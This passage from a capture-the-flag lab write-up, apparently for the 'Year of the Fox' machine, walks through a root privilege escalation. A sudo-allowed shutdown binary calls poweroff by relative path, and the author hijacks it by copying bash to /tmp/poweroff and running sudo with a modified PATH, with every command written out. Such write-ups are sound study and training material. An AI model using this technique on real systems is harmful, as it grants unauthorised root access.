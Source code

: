 <pre>ssh fox@fox.thm -p 8888</pre>

![ssh valid](https://i.imgur.com/EhBWQgv.png)

## Privilege Escalation

Let's start by seeing our sudo rights:

<pre>fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown</pre>

After doing some research, I couldn't identify any common ways of exploiting this to gain privileged access. There was nothing on GTFOBins either.

Let's transfer this to our local machine to investigate this binary.

On Fox:

<pre>cd /usr/sbin && python3 -m http.server</pre>

On our local machine:

<pre>wget http://fox.thm:8000/shutdown</pre>

Let's start by running strings:

<pre>strings shutdown</pre>

![strings](https://i.imgur.com/r8P8fvk.png)

As highlighted above, I saw that this binary called poweroff. If you run this binary with r2, you can see that poweroff is called upon execution.

Something to note is that this binary is not using an absolute path, which means we may be able to perform privilege escalation using **PATH** Variable.

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When commands are executed by a user, it essentially requests the binary from terminal with the help of the PATH variable. Here is our PATH variable on Fox's system:

<pre>fox@year-of-the-fox:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games</pre>

So let's start this off by copying /bin/bash over to our tmp directory:

<pre>cp /bin/bash /tmp/poweroff</pre>

Then we want to change the PATH variable with the following line to get root:

<pre>sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown</pre>

And that's it. We are root. We successfully manipulated the $PATH variable so our binary /bin/bash would be executed.   

![root](https://imgur.com/mUqUHNM.png)

Turns out the root flag is in rascals home directory.
